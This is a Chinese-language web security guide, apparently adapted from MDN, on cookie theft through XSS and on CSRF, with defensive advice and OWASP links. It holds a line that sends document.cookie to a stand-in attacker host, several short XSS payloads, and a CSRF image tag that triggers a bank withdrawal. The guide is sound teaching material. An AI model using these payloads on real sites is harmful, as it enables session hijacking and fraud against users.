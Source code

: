# 安全
::: warn
当机器处于不安全环境时，切记不能通过HTTP Cookie存储、传输敏感信息。
:::

## 会话劫持和XSS
在Web应用中，Cookie常用来标记用户或授权会话。因此，如果Web应用的Cookie被窃取，可能导致授权用户的会话受到攻击。常用的窃取Cookie的方法有利用社会工程学攻击和利用应用程序漏洞进行XSS攻击。
```javascript
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
<body onload="alert('test1')"/>
<img src="http://url.to.file.which/not.exist" onerror="alert(document.cookie);">
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgndGVzdDMnKTwvc2NyaXB0Pg"/>
```
HttpOnly类型的Cookie由于阻止了JavaScript对其的访问性而能在一定程度上缓解此类攻击。

## 跨站请求伪造（CSRF）
维基百科已经给了一个比较好的CSRF例子。比如在不安全聊天室或论坛上的一张图片，它实际上是一个给你银行服务器发送提现的请求：
```javascript
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```
当你打开含有了这张图片的HTML页面时，如果你之前已经登录了你的银行帐号并且Cookie仍然有效（还没有其它验证步骤），你银行里的钱很可能会被自动转走。有一些方法可以阻止此类事件的发生：
- 对用户输入进行过滤来阻止XSS；
- 任何敏感操作都需要确认；
- 用于敏感信息的Cookie只能拥有较短的生命周期；
- 更多方法可以查看[OWASP CSRF prevention cheat sheet](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet)。

>https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies

## more
[Cross-site Scripting (XSS)](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))

[Cross-Site Request Forgery (CSRF)](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_%28CSRF%29)
